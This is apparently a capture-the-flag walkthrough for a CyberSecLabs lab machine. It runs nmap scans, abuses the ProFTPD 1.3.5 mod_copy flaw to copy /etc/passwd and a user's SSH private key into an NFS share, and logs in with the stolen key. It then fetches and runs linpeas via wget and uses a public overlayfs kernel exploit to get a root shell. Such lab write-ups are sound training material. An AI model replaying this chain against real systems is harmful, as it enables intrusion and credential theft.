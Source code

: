 # CyberSecLabs : 172.31.1.22

Full Nmap Scan :

```zsh
nmap -sS -p- -r -v -T4 -Pn 172.31.1.22
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 09:22 EDT
Initiating Parallel DNS resolution of 1 host. at 09:22
Completed Parallel DNS resolution of 1 host. at 09:22, 0.01s elapsed
Initiating SYN Stealth Scan at 09:22
Scanning 172.31.1.22 [65535 ports]
Discovered open port 21/tcp on 172.31.1.22
Discovered open port 22/tcp on 172.31.1.22
Discovered open port 111/tcp on 172.31.1.22
Discovered open port 2049/tcp on 172.31.1.22
Increasing send delay for 172.31.1.22 from 0 to 5 due to 1120 out of 2799 dropped probes since last increase.
SYN Stealth Scan Timing: About 4.81% done; ETC: 09:33 (0:10:13 remaining)
SYN Stealth Scan Timing: About 8.51% done; ETC: 09:34 (0:10:56 remaining)
SYN Stealth Scan Timing: About 29.25% done; ETC: 09:36 (0:10:19 remaining)
SYN Stealth Scan Timing: About 33.45% done; ETC: 09:36 (0:09:29 remaining)
SYN Stealth Scan Timing: About 39.33% done; ETC: 09:36 (0:08:44 remaining)
SYN Stealth Scan Timing: About 45.26% done; ETC: 09:36 (0:08:00 remaining)
SYN Stealth Scan Timing: About 50.01% done; ETC: 09:36 (0:07:16 remaining)
Discovered open port 33837/tcp on 172.31.1.22
SYN Stealth Scan Timing: About 55.35% done; ETC: 09:36 (0:06:31 remaining)
Discovered open port 36807/tcp on 172.31.1.22
Discovered open port 36900/tcp on 172.31.1.22
Discovered open port 38139/tcp on 172.31.1.22
SYN Stealth Scan Timing: About 60.95% done; ETC: 09:37 (0:05:45 remaining)
Discovered open port 41668/tcp on 172.31.1.22
SYN Stealth Scan Timing: About 66.17% done; ETC: 09:37 (0:05:00 remaining)
SYN Stealth Scan Timing: About 70.93% done; ETC: 09:36 (0:04:15 remaining)
SYN Stealth Scan Timing: About 76.32% done; ETC: 09:37 (0:03:29 remaining)
SYN Stealth Scan Timing: About 81.53% done; ETC: 09:37 (0:02:45 remaining)
SYN Stealth Scan Timing: About 86.73% done; ETC: 09:37 (0:01:59 remaining)
SYN Stealth Scan Timing: About 91.85% done; ETC: 09:37 (0:01:14 remaining)
Completed SYN Stealth Scan at 09:37, 920.18s elapsed (65535 total ports)
Nmap scan report for 172.31.1.22
Host is up (0.19s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
111/tcp   open  rpcbind
2049/tcp  open  nfs
33837/tcp open  unknown
36807/tcp open  unknown
36900/tcp open  unknown
38139/tcp open  unknown
41668/tcp open  unknown

Read data files from: /usr/bin/../share/nmap

```
Service Scan :

```zsh
nmap -sC -sV -p 21,22,111,2049,33837,36807,38139,41668 172.31.1.22
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 09:58 EDT
Nmap scan report for 172.31.1.22
Host is up (0.16s latency).

PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      ProFTPD 1.3.5
22/tcp    open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 12:6b:ae:92:45:a3:2d:d6:45:1c:ad:4f:37:23:4d:3b (DSA)
|   2048 24:4a:81:08:4b:cc:bb:a7:c9:da:3b:17:39:ad:a0:61 (RSA)
|_  256 0c:2b:07:32:18:8c:1a:86:e3:fa:c4:09:de:f5:0f:a0 (ECDSA)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      33837/tcp   mountd
|   100005  1,2,3      34883/udp   mountd
|   100005  1,2,3      37514/tcp6  mountd
|   100005  1,2,3      42096/udp6  mountd
|   100021  1,3,4      38139/tcp   nlockmgr
|   100021  1,3,4      40709/tcp6  nlockmgr
|   100021  1,3,4      41784/udp6  nlockmgr
|   100021  1,3,4      52816/udp   nlockmgr
|   100024  1          35320/udp   status
|   100024  1          38767/udp6  status
|   100024  1          41668/tcp   status
|   100024  1          53959/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  2-3 (RPC #100227)
33837/tcp open  mountd   1-3 (RPC #100005)
36807/tcp open  mountd   1-3 (RPC #100005)
38139/tcp open  nlockmgr 1-4 (RPC #100021)
41668/tcp open  status   1 (RPC #100024)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.72 seconds
```

You can google about the ```ProFTPD 1.3.5``` which is vulnerable to modcopy vulnerability. 

What happens is you can login into ftp with anonymous creds, it will show failed but you still get the ftp prompt and can put commands

You can searchsploit and read it ```linux/remote/36742.txt``` 
After reading the exploit I can understand that I can copy files from one place to another. But how do I access the files ? Well we have an nsfshare (port 2049) which can be used. 

To view what share is available to mount:

```zsh
showmount -e 172.31.1.22
```
Now to mount the share make a new directory in /mnt and try this:

```zsh
mount -t nfs  172.31.1.22:/var/nfsbackups/ /mnt/outdated -o nolock
```
You will see there are 3 usernames and they are empty.

Unmount it : ```umount /mnt/cslshare```

In the ftp prompt type this ```cpfr /etc/passwd``` and copy it to ```cpto /var/nsfbackups/passwd```

Now remount and read the file. You can see the username is daniel. You can unmount it again.

Now we can steal .ssh file of daniel using the same method used above 

In the ftp prompt:
```cpfr /home/daniel/.ssh/id_rsa``` then copy transfer to the share ```cpto /var/nsfbackups/id_rsa```

Now remount the share and copy the file to in your working directory. Give it proper permissions : ```chmod 400 id_rsa``` and then try to ssh

```zsh
ssh -i id_rsa daniel@172.31.1.22
```

Now you will have a user shell as daniel. 

For privesc, simply upload linpeas.sh using wget.

Host a python server where linpeas in located on your PC

```zsh
python -m SimpleHTTPServer 8000
```
Now on the ssh shell go the /tmp/ directory and ```wget http://10.10.0.40/linpeas.sh``` and ```bash linpeas.sh```

You will notice it will highlight the kernel. Simply google for that kernel version exploit and you will land on this :
https://www.exploit-db.com/exploits/37292

Simply compile the code using ```gcc ofs.c -o ofs``` on your machine and transfer it to the target and then ```chmod 777 ofs```for proper permissions ```./ofs``` which will spawn a root shell.